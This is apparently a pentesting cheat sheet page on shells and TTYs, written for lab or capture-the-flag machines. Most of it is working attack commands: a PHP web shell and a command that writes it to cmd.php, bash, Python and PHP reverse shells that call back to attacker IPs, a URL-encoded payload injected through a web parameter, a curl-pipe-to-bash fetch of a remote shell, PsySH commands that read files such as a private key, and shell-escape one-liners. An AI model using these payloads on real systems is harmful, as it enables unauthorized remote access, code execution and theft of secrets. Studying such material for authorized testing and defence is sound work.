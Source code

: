 ```yaml
---
icon: book-skull
description: Teletypewriters and Shells
---
```


# Shells/TTYs

{% hint style="info" %}
## <mark style="color:purple;">`TTYs`</mark>

### <mark style="color:purple;">Ncat</mark>

* <mark style="color:purple;">You can use the</mark> <mark style="color:orange;">**`rlwrap`**</mark> <mark style="color:purple;">utility to</mark> <mark style="color:purple;">enable line editing and history:</mark>

{% code title="Listener" %}
```bash
rlwrap nc -lvnp <port>
```
{% endcode %}

{% code title="Connect to the target" %}
```bash
rlwrap nc 10.10.10.131 6200
```
{% endcode %}

* <mark style="color:purple;">In order to have a full</mark> <mark style="color:orange;">**`TTY`**</mark> <mark style="color:purple;">**follow this steps:**</mark>

#### <mark style="color:orange;">`BASH`</mark><mark style="color:purple;">:</mark>

1. <mark style="color:purple;">`python3 -c 'import pty; pty.spawn("/bin/bash")'`</mark>
2. &#x20;<mark style="color:purple;">`CTRL+Z`</mark>
3. <mark style="color:purple;">`stty raw -echo; fg; ls; export SHELL=/bin/bash; export TERM=screen; stty rows 38 columns 116; reset;`</mark>

<mark style="color:orange;">**`ZSH`**</mark><mark style="color:purple;">:</mark>

* <mark style="color:purple;">Same first two steps and then:</mark>

{% code overflow="wrap" %}
```bash
stty raw -echo; fg %1; export SHELL=/bin/bash; export TERM=screen; stty rows 38 columns 116; reset;
```
{% endcode %}
{% endhint %}

***

## <mark style="color:purple;">Shells</mark>

{% hint style="info" %}
## <mark style="color:purple;">`PSY`</mark>

* <mark style="color:orange;">**`PSY`**</mark> <mark style="color:purple;">Shell is an interactive</mark> <mark style="color:orange;">**`PHP REPL (Read-Eval-Print Loop)`**</mark> <mark style="color:purple;">used normally for debugging.</mark>

***

### <mark style="color:purple;">Useful Commands:</mark>

{% code title="Very handy" %}
```sh
help
```
{% endcode %}

{% code title="Print the working directory" %}
```php
getcwd()
```
{% endcode %}

{% code title="Print the current user" %}
```php
get_current_user()
```
{% endcode %}

{% code title="Print system info" %}
```php
phpinfo()
```
{% endcode %}

{% code title="Print contents from directory" %}
```php
scandir("/home")
```
{% endcode %}

{% code title="Print content from file" %}
```php
file_get_contents("/etc/os-release")
```
{% endcode %}

* <mark style="color:purple;">If there are break line characters like</mark> <mark style="color:orange;">**`/n`**</mark> <mark style="color:purple;">and you want to get ride of then:</mark>

```php
echo file_get_contents("/home/nairobi/ca.key")
```
{% endhint %}

***

{% hint style="warning" %}
## Web Shells

### <mark style="color:orange;">`PHP`</mark>

{% code title="Standard shell" %}
```php
<?php system($_REQUEST['cmd']); ?>
```
{% endcode %}

{% code title="Create cmd.php" %}
```bash
echo '<?php system($_REQUEST['cmd']); ?>' > cmd.php
```
{% endcode %}
{% endhint %}

***

{% hint style="danger" %}
## <mark style="color:purple;">Reverse Shells</mark>

### <mark style="color:orange;">`BASH`</mark> <mark style="color:purple;">Reverse Shells</mark>

{% code title="Standard Shell" %}
```bash
bash -i >& /dev/tcp/10.10.14.18/1337 0>&1
```
{% endcode %}

* <mark style="color:purple;">From a</mark> <mark style="color:orange;">**`webshell`**</mark> <mark style="color:purple;">upgrade to a reverse shell:</mark>

{% code title="Use Curl" overflow="wrap" %}
```bash
curl 'http://target-site/error.php?tokyo=bash+-c+"bash+-i+>%26+/dev/tcp/YOUR_IP/4444+0>%261"'
```
{% endcode %}

{% code title="Use the URL parameter" %}
```url
bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.14/9001+0>%261'
```
{% endcode %}

***

### <mark style="color:green;">`Python`</mark> <mark style="color:purple;">Reverse Shells</mark>

#### <mark style="color:purple;">One liners</mark>

{% code title="Uses pty  " overflow="wrap" %}
```sh
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.6",4444));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/bash")'
```
{% endcode %}

{% code title="Uses subprocess" overflow="wrap" %}
```sh
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.157",1235));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
{% endcode %}

#### <mark style="color:purple;">Create the shell file</mark>

{% code title="Uses pty " overflow="wrap" %}
```sh
echo 'import pty
import socket
import os

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("10.10.16.6", 4444))
[os.dup2(s.fileno(), fd) for fd in (0, 1, 2)]
pty.spawn("/bin/bash")
s.close()' > shell.py
```
{% endcode %}

{% code title="Uses subprocess " overflow="wrap" %}
```bash
echo 'import socket, subprocess, os

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("10.10.14.157", 1235))
[os.dup2(s.fileno(), fd) for fd in (0, 1, 2)]
subprocess.call(["/bin/sh", "-i"])
s.close()' > shell.py
```
{% endcode %}

***

### <mark style="color:orange;">`PHP`</mark> <mark style="color:purple;">Reverse shell:</mark>

{% code title="Direct reverse shell" overflow="wrap" %}
```php
<?php system("bash -c 'bash -i >& /dev/tcp/10.10.14.17/4444 0>&1'");?>
```
{% endcode %}

* <mark style="color:purple;">**Fetches and executes a remote reverse shell via**</mark>**&#x20;**<mark style="color:orange;">**`curl`**</mark><mark style="color:purple;">**:**</mark>

```php
<?php system("curl http://attacker_ip/reverseshell | bash"); ?>
```
{% endhint %}









Spawning Shells

```bash
python -c 'import pty; pty.spawn("/bin/sh")' 
python3 -c 'import pty; pty.spawn("/bin/sh")'

script -qc /bin/bash /dev/null

echo os.system('/bin/bash') 
/bin/sh -i 
perl -e 'exec "/bin/sh";' 
perl: exec "/bin/sh"; 
ruby: exec "/bin/sh" 
lua: os.execute('/bin/sh') 
exec "/bin/sh"; 
/bin/bash -i
exec "/bin/sh"                # (From within IRB) 
:!bash                        # (From within vi)
:set shell=/bin/bash:shell    # (From within vi) 
!sh                           # (From within nmap)
```

